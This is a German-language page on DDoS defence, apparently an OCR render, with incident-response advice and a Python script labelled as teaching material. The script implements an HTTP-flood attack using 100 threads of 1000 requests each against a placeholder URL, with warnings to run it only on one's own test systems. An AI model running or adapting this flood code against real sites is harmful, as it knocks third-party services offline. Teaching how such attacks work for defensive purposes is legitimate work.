         [![Bildmotiv: DDoS Mitigation Cloud Service](https://encrypted-tbn2.gstatic.com/images?q=tbn:ANd9GcQlv-5Elwlep_cy4g90LDubW7kk3oaxIquCctD5IAL3VRj2v367ytQzsr5kbv9a)Wird in einem neuen Fenster geöffnet](https://www.f5.com/products/distributed-cloud-services/l3-and-l7-ddos-attack-mitigation)[![](https://encrypted-tbn1.gstatic.com/favicon-tbn?q=tbn:ANd9GcSl6nHQgO83Jmx_EBBofAryMvrjggtKzrESYOfr9l_jYBHrly975ar_4WPmH4jkS-ApKdIeY8Tk8WrxFnI9Ayb3VqquLw)www.f5.com](https://www.f5.com/products/distributed-cloud-services/l3-and-l7-ddos-attack-mitigation)
        
        DDoS Mitigation Cloud Service
        
- **Response-Plan und Incident Management:**
    
    - Ein klar definierter **Incident Response Plan** ist entscheidend, um im Falle eines Angriffs schnell und effektiv reagieren zu können.
    - Regelmäßige **Tests und Simulationen** von DDoS-Angriffen helfen, die Abwehrmechanismen zu überprüfen und das Personal zu schulen.
    - **Zusammenarbeit mit ISPs und CERTs:** Die Zusammenarbeit mit Internet Service Providern (ISPs) und Computer Emergency Response Teams (CERTs) kann bei der Abwehr und Analyse von DDoS-Angriffen hilfreich sein.

**Codebeispiel zu Lehrzwecken (HTTP-Flood in Python)**

**Wichtiger Hinweis:** Der folgende Code dient **ausschließlich Lehrzwecken**, um das Prinzip eines HTTP-Flood-DDoS-Angriffs zu demonstrieren. **Führen Sie diesen Code NICHT gegen fremde Systeme oder Webseiten aus! Dies ist illegal und kann strafrechtliche Konsequenzen haben. Führen Sie den Code nur in einer kontrollierten Testumgebung oder gegen ein eigenes Testsystem aus, für das Sie die Erlaubnis haben.**

Python

```
import requests
import threading
import time

# Ziel-URL (BITTE EINE EIGENE TEST-WEBSEITE VERWENDEN!)
target_url = "http://example.com"  # ERSETZEN SIE DIES DURCH EINE EIGENE TEST-URL!

# Anzahl der Requests pro Thread
requests_per_thread = 1000

# Anzahl der Threads (parallele Anfragen)
num_threads = 100

def flood_target(url):
    """Sendet eine große Anzahl von HTTP-GET-Requests an die Ziel-URL."""
    for _ in range(requests_per_thread):
        try:
            response = requests.get(url)
            if response.status_code == 200:
                print(f"Thread {threading.current_thread().name}: Request erfolgreich ({response.status_code})")
            else:
                print(f"Thread {threading.current_thread().name}: Request fehlgeschlagen ({response.status_code})")
        except requests.exceptions.RequestException as e:
            print(f"Thread {threading.current_thread().name}: Fehler bei der Anfrage: {e}")

def start_ddos(url, threads):
    """Startet den DDoS-Angriff mit mehreren Threads."""
    thread_list = []
    print(f"Starte DDoS-Angriff auf {url} mit {threads} Threads...")
    start_time = time.time()

    for i in range(threads):
        thread = threading.Thread(target=flood_target, args=(url,), name=f"Thread-{i+1}")
        thread_list.append(thread)
        thread.start()
```